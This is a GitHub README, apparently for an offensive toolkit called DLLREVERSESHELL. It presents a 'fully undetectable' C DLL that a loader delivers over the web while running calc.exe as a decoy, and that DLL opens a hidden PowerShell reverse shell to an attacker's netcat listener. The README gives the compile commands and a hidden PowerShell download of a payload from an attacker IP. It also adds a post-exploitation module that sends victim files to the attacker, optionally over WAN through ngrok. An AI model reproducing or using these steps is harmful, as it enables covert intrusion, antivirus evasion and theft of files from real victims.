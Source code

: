 # DLLREVERSESHELL
<b>A CUSTOM CODED FUD DLL, CODED IN C , WHEN LOADED , VIA A DECOY WEB-DELIVERY MODULE( FIRING A DECOY PROGRAM), WILL GIVE A REVERSE SHELL (POWERSHELL) FROM THE VICTIM MACHINE TO THE ATTACKER CONSOLE , OVER LAN AND WAN.
</b>

The project comprises of:


<p><b>. A custom C header file, mingwdll.h </b></p>
<p><b>. The DLL C code mingw_dll.c </b></p>
<p><b>. The Loader file loader.c , that will invoke a web delivery of the DLL ,to the target machine, load the DLL in the runtime, producing the decoy program for the victim on the foreground, and spawning a connect back reverse shell (powershell) to the attacker, in the back ground </b></p>

<p><b><i> Phase 1 : </b></i></p>

Place the mingwdll.h and mingw_dll.c in the same folder and compile using :

<b>i686-w64-mingw32-gcc -Wall -shared mingw_dll.c -o calc_helper.dll -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc </b>

This will create the FUD DLL <b> calc_helper.dll </b>

File Description:
<b> root@nautilus:~/Desktop/c_code/dll_rsh# file calc_helper.dll
calc_helper.dll: PE32 executable (DLL) (console) Intel 80386 (stripped to external PDB), for MS Windows
</b>

<p><b><i> Phase 2 : </b></i></p>
Compile the loader.c using <b> i686-w64-mingw32-gcc loader.c -o improved_calc.exe </b>
This will create the PE32 executable improved_calc.exe.

File Description:
<b>improved_calc.exe: PE32 executable (console) Intel 80386, for MS Windows </b>

When the file improved_calc.exe , it might initially throw a Dll load error, thus I have ensured that a second call to regsvr32 is made post a _sleep() function, to ensure the DLL load on runtime.

Post the DLL is loaded , it will fire the decoy , calc.exe and spawn a reverse shell, (netcat listener on port 8080 as defined in the header file { nc -lvp 8080 } ) 

Cheers

#Captain_Nemo

# DLLREVERSESHELL

<b><p>https://youtu.be/HR0C_2_UAT8</p></b>


# POST EXPLOITATION MODULE

I have added a post exploitation module for file transfer , from the Victim machine to the Attacker machine.

Compile the C program , ft_clie.c using 

<p><b>i686-w64-mingw32-gcc ft_clie.c -o client_ft.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
 </p></b>
 
 
 This is webdelivered to the victim , through the newly incorporated system() function call system("start powershell -windowstyle Hidden Invoke-WebRequest -Uri 'http://192.168.225.196/client_ft.exe' -OutFile 'client_ft.exe'"); , in loader.c 
 
 <p><b> 
  syntax to run client_ft.exe : 
  
  .\client_ft.exe ss.txt 192.168.225.196 4444
  
  or
  
  .\client_ft.exe <filename> <attackerip> <attackerport>
  
  from the reverse shell
  </p></b>
  
  <p><b>
  In the mean while , compile the serverfiletransfer.c using 
  gcc serverfiletransfer.c -o serv 
  
  Syntax: ./serv <localattackerip> <chosenport> 
  or 
  ./serv 192.168.225.196 4444
  
 </p></b>
 
 <p>
 Once the reverse shell is obtained, ready the server using ./serv <localattackerip> <chosenport>  on a Linux terminal and on the Reverseshell , execute  .\client_ft.exe <filename> <attackerip> <attackerport> , to transfer files from the victim to the atacker machine. 
  This exploit can be leveraged to WAN using ngrok.
  </p>
  
  <b>https://youtu.be/KJOwew96pqw</b>
  
  # POST EXPLOITATION MODULE
